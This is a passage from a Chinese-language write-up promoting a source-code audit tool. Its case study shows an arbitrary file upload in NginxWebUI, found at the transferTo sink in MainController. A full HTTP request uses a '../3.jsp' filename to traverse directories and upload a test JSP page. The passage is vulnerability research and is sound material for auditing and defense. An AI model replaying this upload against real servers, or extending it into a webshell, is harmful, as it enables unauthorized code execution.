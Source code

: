 - Sink点继续完善  
  
- ASP  
  
## 3.7. 支持项目  
- 如果有师傅发现Bug或者有更好的建议请提issue感谢  
  
- 要是各位师傅通过本人的小工具挖到一些好洞记得回头点点Stars诶  
  
## 3.8. 详细使用文章(内附案例)  
### 3.8.1. 案例  
  
这里就展示下一些简单的代码，只有自己用了才知道真香  
#### 3.8.1.1. NginxWebui  
  
先框架分析为Spring  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yLWibFaIDAFqKRM0y6YsL5aubv6LIdYJdX6O62kyGWamf4spQRgO8AI2k7LJsItQOn0fu5YYEwtgqiax6Y01H3zQ/640?wx_fmt=png&from=appmsg "")  
  
##### unsetunset3.8.1.1.1. 任意文件上传unsetunset  
  
工具扫描出结果为  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yLWibFaIDAFqKRM0y6YsL5aubv6LIdYJd6Eicic7ibZG1zOQdIDHRQ9PuuL0nx5U6XHbjniaKem0fBVRkZ1ZR1pdwXQ/640?wx_fmt=png&from=appmsg "")  
  
有时候代码就是可以直接秒的，这里发现transferTo 这个sink点就在控制层  
  
找到src/main/java/com/cym/controller/adminPage/MainController.java  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yLWibFaIDAFqKRM0y6YsL5aubv6LIdYJd0KBmmkKterVvZXvEu1HuL4t6ia7LIsUru1jrD0qIcJdAhE9zIzPoUgA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yLWibFaIDAFqKRM0y6YsL5aubv6LIdYJdtDEyzmBM5FlYyK5QAs697Edu6lMdnwXJDFXiaZNMia6qwmlQoNFAwkGA/640?wx_fmt=png&from=appmsg "")  
  
这种名字可以进行跨目录上传  
  
直接传即可上传成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yLWibFaIDAFqKRM0y6YsL5aubv6LIdYJd6EBYwPOxsKIib7ZN12icUmWjn8XG3EickeQMzticWBbp8UjG3K6T6G4QsA/640?wx_fmt=png&from=appmsg "")  
  
报文  
```
POST /admiNPage/main/upload HTTP/1.1
Host: localhost:8080
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 0
Origin: http://localhost:8080
Referer: http://localhost:8080/adminPage/monitor
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
 
------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="../3.jsp"
Content-Type: image/jpeg
 
<%out.print("test");%>
```